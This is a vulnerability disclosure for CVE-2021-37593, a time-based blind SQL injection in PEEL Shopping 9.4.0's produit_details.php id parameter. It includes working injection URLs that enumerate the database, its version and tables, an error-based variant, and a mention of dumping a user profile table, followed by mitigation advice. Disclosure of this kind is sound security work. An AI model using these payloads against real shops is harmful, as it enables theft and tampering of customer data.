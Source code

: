 **Vulnerability Name:** SQL Injection in "_produit_details.php?id_" parameter

**Date of Discovery:** 10 July 2021 

**Product version:** 9.4.0 . [Download link](https://drive.google.com/file/d/1FM8du7J6DDxE-LwVmH8JI502vvom-DUU/view?usp=sharing)

**Author:** faisalfs10x

**Vulnerability Description:** Public user/guest (unauthenticated) can inject malicious SQL query in order to affect the execution of predefined SQL commands via the "_id_" parameter on the "_/peel-shopping_9_4_0/achat/produit_details.php?id=[SQLi]_" endpoint. Upon successful of SQL injection attack, attacker can read sensitive data from the database or modify database data.

**Vulnerable URL:** _http://localhost/peel-shopping_9_4_0/achat/produit_details.php?id=[SQLi]_

**Proof of Concept:**

**1)** Assumed peel-shopping_9_4_0 out of box installation database name is _peel_. This query will check if _database()_ name like _hex(%peel%)_ - it will delay for 7 seconds before redirect to homepage (http://localhost/peel-shopping_9_4_0/) that indicates TRUE SQL statement which mean the database name like "_peel_".

**url :** http://localhost/peel-shopping_9_4_0/achat/produit_details.php?id=(SELECT+1337+FROM+(SELECT(SLEEP(7-(IF(DATABASE()+LIKE+0x257065656c25,0,5)))))FSXX) 

[PoC enum db name]
![enum_dbname](https://user-images.githubusercontent.com/51811615/125202026-5ac05480-e2a4-11eb-8aa8-0bd79718769f.png)


**2)** Assumed the web is using MariaDB database server - check if db_version like _hex(%MariaDB%)_, it will delay for 5 seconds if TRUE.

**url :** http://localhost/peel-shopping_9_4_0/achat/produit_details.php?id=(SELECT+1337+FROM+(SELECT(SLEEP(5-(IF(VERSION()+LIKE+0x254d61726961444225,0,5)))))FSXX)

[Poc enum MariaDB]
![enum_dbversion(MariaDB)](https://user-images.githubusercontent.com/51811615/125202107-b68add80-e2a4-11eb-8b16-5f03eedcb275.PNG)


**3)** By default, the database have a table name = peel_produits. This query will check if table_name _peel_produits_ is exist, it will delay for 10 seconds if TRUE, else will redirect to homepage instantly.

**url :** http://localhost/peel-shopping_9_4_0/achat/produit_details.php?id=(SELECT+1337+FROM+(SELECT(SLEEP(10-(IF(EXISTS(SELECT+3+FROM+peel.peel_produits),0,5)))))FSXX)

[PoC enum table peel_produits]
![enum_tablename](https://user-images.githubusercontent.com/51811615/125202148-d91cf680-e2a4-11eb-95fe-5dd3c633f285.png)


To produce SQL syntax error, it is possible to intercept the request before it is redirect to homepage using a tool like BurpSuite (repeater).

**Error syntax:** http://localhost/peel-shopping_9_4_0/achat/produit_details.php?id=(SELECT+1337+FROM+(SELdECT(SLEEP(3-(IF(USER()+LIKE+0xGEN_ERROR,0,5)))))ERR)

1. [MariaDB disclosed image]
![sql_error_mariadb](https://user-images.githubusercontent.com/51811615/125202162-e934d600-e2a4-11eb-8a08-9086e37f1706.png)

2. [peel_produits table_name disclosed]
![sql_errorbased2](https://user-images.githubusercontent.com/51811615/125202167-efc34d80-e2a4-11eb-9158-a66b2297eff3.png)

**Dump table name = peel_profil**

![dump_table_peel_profil](https://user-images.githubusercontent.com/51811615/125201991-2b114c80-e2a4-11eb-9c16-3a5197bcb51a.PNG)


**Consequences:** 

- Confidentiality: Since SQL databases generally hold sensitive data, loss of confidentiality is a frequent problem with SQL Injection vulnerabilities.
- Integrity: Just as it may be possible to read sensitive information eg client/customer sensitive data, it is also possible to make changes or even delete this information with a SQL Injection attack.

**Mitigation:** Use of Prepared Statements (with Parameterized Queries). It would be good also to casting integer to ensure only numerical data is inserted in 'id' parameter eg - intval($_GET['id'])

**References for Mitigation Vulnerability:** https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html

**References:** 
- https://github.com/advisto/peel-shopping/issues/3
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37593
- https://cve.report/CVE-2021-37593
- https://vuldb.com/?id.179759
- https://vulmon.com/vulnerabilitydetails?qid=CVE-2021-37593
- https://nvd.nist.gov/vuln/detail/CVE-2021-37593
